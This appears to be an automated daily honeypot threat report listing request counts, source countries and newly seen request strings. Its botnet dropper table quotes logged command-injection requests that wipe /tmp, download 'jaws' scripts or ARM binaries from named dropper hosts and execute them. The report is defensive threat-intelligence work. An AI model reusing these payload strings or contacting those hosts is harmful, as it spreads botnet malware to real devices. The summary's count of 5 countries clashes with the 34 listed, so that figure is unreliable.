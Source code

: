 ```yaml
---
title: "Report: 2025-07-28 "
date: 2025-07-28
desciption: "Report: 2025-07-28" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-28 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 12 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 431 requests were recorded during the day, originating from 5 different countries, with a peak of 124 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| CA               | Dubai              |
| US               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                 |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.220.245.115   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                    |
| 8.222.201.35    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                    |
| 125.229.221.223 | GET /shell?cd+/tmp;rm+arm+arm7;wget+http:/\x5C/89.221.203.116:6969/bins/arm7;chmod+777+arm7;./arm7+selfrep.jaws;wget+http:/\x5C/89.221.203.116:6969/bins/arm;chmod+777+arm;./arm+selfrep.jaws; HTTP/1.1 |
| 8.222.162.163   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                    |
| 115.190.45.48   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                    |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                          |
|----:|----------------------:|:-----------------------------------------------------------------|
|  13 |                     2 | GET /index.htm HTTP/1.1                                          |
|  22 |                     2 | GET http://91.224.59.5.sslip.io/check.txt HTTP/1.1               |
|  27 |                     2 | GET /check.txt HTTP/1.1                                          |
| 108 |                     1 | \x00\x0E\x08\xCC\xA1\x08\x9D\xAB\xBD\xEA\xF2\x00\x00\x00\x00\x00 |
| 109 |                     1 | \x00\x0E8\xCC\xA1\x08\x9D\xAB\xBD\xEA\xF2\x00\x00\x00\x00\x00    |
| 131 |                     1 | GET /environment.php HTTP/1.1                                    |
| 134 |                     1 | GET /phpinfo.aspx HTTP/1.1                                       |
| 135 |                     1 | GET /phpinfo.jsp HTTP/1.1                                        |
| 149 |                     1 | GET /cgi-bin/ HTTP/1.0                                           |
| 150 |                     1 | GET /cgi-bin/FormMail.pl HTTP/1.0                                |
| 151 |                     1 | \x00\x0E\x08\xBA\xCA!w\xA7\x7F!\xD3\x00\x00\x00\x00\x00          |
| 152 |                     1 | \x00\x0E8\xBA\xCA!w\xA7\x7F!\xD3\x00\x00\x00\x00\x00             |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   124 | US                 |
|  1 |                    48 | IN                 |
|  2 |                    37 | GB                 |
|  3 |                    20 | JP                 |
|  4 |                    19 | RU                 |
|  5 |                    19 | FR                 |
|  6 |                    18 | BG                 |
|  7 |                    18 | DE                 |
|  8 |                    15 | AU                 |
|  9 |                    15 | PL                 |
| 10 |                    14 | RO                 |
| 11 |                    11 | NL                 |
| 12 |                    11 | CA                 |
| 13 |                    11 | CN                 |
| 14 |                    10 | SC                 |
| 15 |                     6 | CZ                 |
| 16 |                     4 | LT                 |
| 17 |                     4 | BE                 |
| 18 |                     4 | SG                 |
| 19 |                     3 | VN                 |
| 20 |                     3 | GH                 |
| 21 |                     2 | KZ                 |
| 22 |                     2 | ES                 |
| 23 |                     2 | CH                 |
| 24 |                     2 | ZA                 |
| 25 |                     1 | KR                 |
| 26 |                     1 | HK                 |
| 27 |                     1 | MU                 |
| 28 |                     1 | MC                 |
| 29 |                     1 | BR                 |
| 30 |                     1 | AZ                 |
| 31 |                     1 | IL                 |
| 32 |                     1 | TW                 |
| 33 |                     1 | IR                 |

